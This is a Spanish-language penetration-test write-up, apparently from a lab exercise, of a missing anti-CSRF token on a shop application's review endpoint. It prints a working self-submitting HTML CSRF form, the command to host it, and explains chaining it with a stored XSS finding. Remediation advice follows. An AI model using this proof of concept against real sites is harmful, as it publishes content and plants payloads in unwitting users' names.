



# 🎣 F-010 — CSRF en el envío de reviews

   

> [!IMPORTANT]
> `POST /api/add_review.php` no incluye ningún token anti-CSRF — solo valida la cookie de sesión, que viaja automáticamente en peticiones cross-site porque tiene `SameSite: None` ([F-001](F-001-cookie-sesion-sin-atributos.md)). Una página externa, con solo ser visitada, publica una review en nombre de la víctima sin su consentimiento.

## 📖 Contexto

**Petición original capturada, sin token:**

```http
POST /api/add_review.php HTTP/1.1
Host: 172.17.0.2:8080
Cookie: PHPSESSID=<session>

product_id=wl-boardshort-reef&rating=5&body=hey
```



## 🔬 Explotación paso a paso

1. Construir un PoC HTML con un formulario que se autoenvía al cargar, servido desde un origen distinto al de BigShop (puerto 9999 en el mismo Kali, simulando una web atacante externa):

```html
<html>
  <body>
    <form id="csrf" action="http://172.17.0.2:8080/api/add_review.php" method="POST">
      <input type="hidden" name="product_id" value="wl-boardshort-reef">
      <input type="hidden" name="rating" value="1">
      <input type="hidden" name="body" value="CSRF-POC-forzado-sin-mi-cuenta">
    </form>
    <script>document.getElementById('csrf').submit()</script>
  </body>
</html>
```

```bash
python3 -m http.server 9999
```



2. Con sesión activa en PenguinWave, visitar el PoC. La review se publica automáticamente en nombre de la víctima, sin interacción adicional más allá de abrir el enlace:



## 🔍 Bonus — protección inconsistente entre endpoints

Se probó el mismo ataque contra `POST /api/delete_user.php` (borrado de usuarios en el panel admin). A diferencia de `add_review.php`, **este endpoint sí está protegido**:

- Petición legítima (mismo origen) → `200 OK`, usuario borrado.
- Petición del PoC CSRF (origen distinto) → `302 Found` a `/login.php`, con invalidación de la sesión actual. El usuario objetivo **no llegó a borrarse**.
- Se intentó suprimir la cabecera `Referer` por si la validación dependía solo de ella — siguió bloqueado, lo que indica validación por `Origin` (más robusta, no bypaseable con ese truco).

**Conclusión:** la app sabe implementar protección CSRF, pero la aplica de forma inconsistente — presente en una acción administrativa destructiva, ausente en una acción de cliente normal.

## 💥 Impacto

> [!CAUTION]
> Combinado con el XSS almacenado de F-003, el atacante ni siquiera necesita cuenta propia en PenguinWave para plantar el payload — basta con que cualquier usuario logueado visite el enlace malicioso.

Permite forzar acciones en nombre de una víctima autenticada sin su consentimiento. Combinado con [F-003 — XSS almacenado en reviews](F-003-xss-almacenado-reviews.md), el atacante ni siquiera necesita cuenta propia en PenguinWave para plantar el payload de XSS almacenado — basta con que cualquier usuario logueado (cliente normal, no necesariamente admin) visite el enlace malicioso para que el payload quede publicado en su nombre, listo para disparar contra quien vea después esa ficha de producto, incluido el administrador.

## 🛡️ Remediación

- Implementar un token anti-CSRF único por sesión/formulario en todas las acciones que cambien estado, validado en servidor, de forma consistente en toda la aplicación — no solo en las acciones administrativas.
- Como defensa adicional, marcar la cookie de sesión como `SameSite=Lax` o `Strict` (ver [F-001](F-001-cookie-sesion-sin-atributos.md)).

## Hallazgos relacionados

- [F-001 — Cookie de sesión sin atributos de seguridad](F-001-cookie-sesion-sin-atributos.md): `SameSite: None` es lo que hace posible este CSRF.
- [F-003 — XSS almacenado en reviews](F-003-xss-almacenado-reviews.md): este CSRF permite plantarlo sin cuenta propia del atacante.

---
⬅ [Volver al índice de writeups](README.md) · [README principal](../README.md) · [Informe técnico (PDF)](../docs/informe-BigShop.pdf)
